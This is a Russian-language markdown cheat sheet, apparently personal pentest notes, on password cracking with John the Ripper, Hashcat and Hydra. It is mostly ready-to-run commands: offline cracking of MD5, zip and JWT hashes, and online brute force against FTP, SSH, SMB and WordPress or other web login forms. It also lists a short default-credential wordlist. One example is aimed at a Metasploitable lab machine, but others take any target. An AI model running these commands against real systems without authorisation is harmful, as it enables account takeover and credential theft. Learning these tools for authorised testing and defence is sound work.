 ## John the ripper

Имея hash пароля пытается подобрать верный пароль.
Пример:
```bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format={hash format, напримире bcrypt} resultFile.txt
```
### MD5

Пример:
```bash 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
или стандартный взлом hash-а:
```bash
john hash.txt --show
```
### Zip archive
```bash
zip2john archive.zip > arch.hash
john arch.hash -w rockyou.txt
```
### JWT
```bash
john jwt.txt --wordlist=wordlist.txt --format=HMAC-SHA256
```

---

# Hashcat

## Введение 

**Hashcat** — легендарный взломщик паролей, предназначенный для взлома даже самых сложных паролей. Популярный инструмент позволяет взломать пароль разными способами. В этой статье я покажу, как пользоваться **Hashcat**.

Еще по теме: [Как с помощью документа перехватить хеш NTLMv2-SSP](https://spy-soft.net/intercept-ntlmv2-ssp-hash-and-bruteforce-password/)

Представления паролей в первую очередь связаны с хэш-ключами, такими как **MD5, SHA, WHIRLPOOL, RipeMD, NTMLv1, NTMLv2** и т. д.

**Hashcat** переводит читаемые данные в искаженное состояние (это случайная строка фиксированного размера). Хэши не позволяют кому-либо расшифровать данные с помощью определенного ключа, как это позволяют стандартные протоколы шифрования. **Hashcat** использует предварительно вычисленные словари, радужные таблицы и даже методы брутфорса, чтобы найти эффективный и действенный способ взлома паролей.

Кстати, про использование Hashcat в Windows, мы рассказывали в [этой статье.](https://spy-soft.net/hashcat-windows/)

## Использование

Некоторые из наиболее важных параметров **hashcat** — это `-m` (тип хеша) и `-a` (режим атаки). В общем, нам нужно использовать оба варианта в большинстве попыток взлома паролей при использовании **Hashcat**.

Взлом хэшей:
```bash
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt rockyou.txt
```
Где:
- `-m 0` - тип хеша, который мы взламываем (MD5).
- `-a 0` - атаку по словарю.
- `-o cracked.txt` - выходной файл.
- `target_hashes.txt` - хэши, которые нужно взломать.
- `rockyou.txt` - список паролей.


---

## Hydra

### Введение 

[Hydra](https://github.com/vanhauser-thc/thc-hydra) - это распараллеленый брутфорс паролей к различным сервисам (**FTP, POP3, IMAP, Telnet, HTTP Auth, NNTP, VNC, ICQ, PCNFS, CISCO** и др.) для **UNIX** платформ. С помощью этой утилиты вы можете атаковать несколько сервисов одновременно.

В основе программы лежит модульная структура. С помощью Гидры пароль можно подобрать к более чем 30 протоколам, включая **telnet, ftp, http, https, smb, несколькими СУБД**, и т.д. Кстати, Hydra [брутит и SSH](https://spy-soft.net/bruteforce-ssh-metasploit/), но для этого требуется наличие библиотеки **libssh**. 

### FTP сервер, SSH, SMB

Буду использовать специально уязвимую машину [Metasploitable](https://spy-soft.net/install-metasploitable-virtual-box/). 

Вы можете использовать логины и пароли по умолчанию, содержащиеся в списке` ftp-betterdefaultpasslist.txt`, который входит в набор **SecLists**. Ниже приводится копия всего словаря для брута:
```
anonymous:anonymous
root:rootpasswd
root:12hrs37
ftp:b1uRR3
admin:admin
localadmin:localadmin
admin:1234
```
Не все словари, входящие в набор [SecLists](https://www.kali.org/tools/seclists/ "SecLists"), такие же короткие. Фактически приведенный выше список паролей — один из самых коротких в коллекции **SecLists**, что делает его отличным вариантом для демонстрации брута паролей с помощью **Hydra**. Чем длиннее список, тем больше времени придется брутить.

Запустите Hydra, используя следующую команду, где `192.168.1.101` — это **IP**-адрес целевого сервера (в моем случае —  **Metasploitable**):
```
hydra -C ./ftp-betterdefaultpasslist.txt 192.168.1.101 ftp
```
Пример брутфорса пароля **SSH** на порту **2222**:
```bash
hydra -l {username} -P {brutList.txt} ssh:10.10.1.2:2222
```
Брутфорс авторизации по **smb**:
```bash
hydra -L users.txt -P pass.txt {IP} smb -V
```
### Брут внутри формы авторизации

Пример брутфорса пароля внутри формы авторизации на `wordpress/wp-login.php`:
```bash 
hydra -L {username} -p {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
```bash
hydra -l {username} -P {brutList.txt} {url например 10.10.1.2} http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Брутворс формы авторизации на конкретном сайте:
``` bash
hydra -t 5 -V -L UserList -P PasswordList -f [домен] http-post-form -m "/webapps/login/:user_id=§^USER^§&password=§^PASS^§&login=§Login§&action=§login§&new_loc=§§:F=The username or password you typed is incorrect"
```


---
# Взлом Hash-а - hash-identifier
```bash
hash-identifier
HASH: {hash}
```

---

# Другие

Вот еще несколько популярных инструментов для подбора паролей:

[Metasploit](https://github.com/rapid7/metasploit-framework) - это многофункциональный инструмент для тестирования на проникновение, который имеет модули для подбора паролей и поддерживает различные протоколы и сервисы.

[LEGBA](https://github.com/evilsocket/legba) - многопротокольный брутфорсер учетных данных на языке **Rust**.

[Medusa](https://github.com/jmk-foofus/medusa) - еще один инструмент для атаки на пароли, который также поддерживает различные протоколы.

[Ncrack](https://github.com/nmap/ncrack) - инструмент для взлома паролей **SSH**, **RDP**, **FTP** и так далее. Имеет возможность многопоточного сканирования.